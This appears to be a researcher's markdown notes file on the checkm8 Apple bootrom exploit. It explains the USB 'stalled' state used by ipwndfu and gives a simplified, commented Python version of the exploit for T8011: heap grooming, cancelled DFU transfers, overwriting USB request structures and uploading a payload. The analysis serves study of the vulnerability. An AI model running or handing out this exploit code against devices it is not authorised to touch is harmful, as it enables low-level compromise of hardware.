 # Notes

## Used to jot stuff down before I write the vulnerability write-up

### Stalled state
'Stalling' the device is not the same as a USB stall that is defined in the USB specification.

When the device is stalled in checkm8, I believe it is a state where it is 'stalled' because the host has not told it what to do. As a result, it stops operation because it has no idea how to operate without the host telling it what to do.

In ipwndfu, the device is stalled using `libusb1_async_ctrl_transfer(device, 0x80, 6, 0x304, 0x40A, 'A' * 0xC0, 0.00001`. The use of the very short timeout indicates that one is trying to cancel the request mid-way through the transfer. The bmRequestType of 0x80 indicates a device to host transfer. The wValue of 0x304 indicates the following: the wValueHigh value of 0x3 defines the type of descriptor to fetch (USB_DT_STRING) and the wValueLow value of 0x4 provides the index of the string descriptor (which will be the USB serial number here).

## Exploit analysis
Simplified version of ipwndfu checkm8 for T8011
```python
# Initial setup of exploit
device = dfu.acquire_device()
start = time.time()
print(f'Found: {device.serial_number}')
if 'PWND:[' in device.serial_number:
    print('Device is already in pwned DFU Mode. Not executing exploit.')
    return
# Load device config and payload
payload, config = exploit_config(device.serial_number)

# Heap feng-shui

# Puts device into stalled state
stall(device)
for i in range(6):
    no_leak(device) # Don't leak zlp
usb_req_leak(device) # Leak usb request
no_leak(device) # Don't leak zlp

dfu.usb_reset(device)
dfu.release_device(device)

# Allocation and freeing of IO buffer without clearing global state
device = dfu.acquire_device()
device.serial_number
# Short timeout to cancel request mid-way through transfer
libusb1_async_ctrl_transfer(device, 0x21, 1, 0, 0, 'A' * 0x800, 0.0001)
# bRequest of 4 is DFU_CLRSTATUS
libusb1_no_error_ctrl_transfer(device, 0x21, 4, 0, 0, 0, 0)
dfu.release_device(device)

time.sleep(0.5)

device = dfu.acquire_device()

# These requests cause allocation to be in the hole created at heap feng-shui stage
usb_req_stall(device) # Stall usb request
usb_req_leak(device) # Leak usb request
# Overwrite the usb_device_io_request struct and USB descriptor objects in memory
libusb1_no_error_ctrl_transfer(device, 0, 0, 0, 0, config.overwrite, 100)
for i in range(0, len(payload), 0x800):
    # Transfer payload
    libusb1_no_error_ctrl_transfer(device, 0x21, 1, 0, 0, payload[i:i+0x800], 100)
dfu.usb_reset(device) # Reset to trigger image parsing
dfu.release_device(device)

device = dfu.acquire_device()
if 'PWND:[checkm8]' not in device.serial_number:
    print('ERROR: Exploit failed. Device did not enter pwned DFU Mode.')
    sys.exit(1)
print('Device is now in pwned DFU Mode.')
print('(%0.2f seconds)' % (time.time() - start))
dfu.release_device(device)
```